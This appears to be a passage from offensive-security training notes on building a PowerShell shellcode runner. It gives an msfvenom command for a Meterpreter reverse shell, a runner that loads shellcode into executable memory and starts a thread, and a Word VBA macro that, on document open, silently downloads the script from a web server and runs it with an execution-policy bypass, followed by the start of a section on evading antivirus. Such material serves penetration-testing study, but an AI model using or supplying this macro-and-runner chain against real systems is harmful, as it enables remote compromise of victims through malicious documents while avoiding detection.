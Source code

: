 ```powershell
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.123 LPORT=443 -f ps1
[Byte[]] $buf = SHELLCODE_GO_HERE
$size = $buf.Length

# allocate executable memory
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

# copy the shellcode
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

# execute 
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

# wait until the shellcode fully executes
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

![[Pasted image 20240531091139.png]]

Host the file `Simple_Shellcode_Runner_Powershell_v1.ps1` on the Web Server, transmit and execute it via macro in Microsoft Word. 

```vb
Sub MyMacro()
	Dim str As String
	str = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile (New-Object System.Net.WebClient).DownloadString('http://10.0.0.123/Simple_Shellcode_Runner_Powershell_v1.ps1')|IEX"
	Shell str, vbHide
End Sub

Sub Document_Open()
 MyMacro 
End Sub

Sub AutoOpen()
 MyMacro
End Sub
```

# 3.6 Keep That PowerShell in Memory

Shellcode runner from the previous two section still has limitations, which are artifacts created on the hard drive - which can be detected by anti-virus software. Use [reflection](https://learn.microsoft.com/en-us/dotnet/csharp/advanced-topics/reflection-and-attributes/) .NET framework techniques to improve Shellcode runner.

*[Reflection](https://learn.microsoft.com/en-us/dotnet/fundamentals/reflection/reflection) provides objects (of type [Type](https://learn.microsoft.com/en-us/dotnet/api/system.type)) that describe assemblies, modules, and types. You can use reflection to dynamically create an instance of a type, bind the type to an existing object, or get the type from an existing object and invoke its methods or access its fields and properties. If you're using attributes in your code, reflection enables you to access them. For more information, see [Attributes](https://learn.microsoft.com/en-us/dotnet/standard/attributes/).*
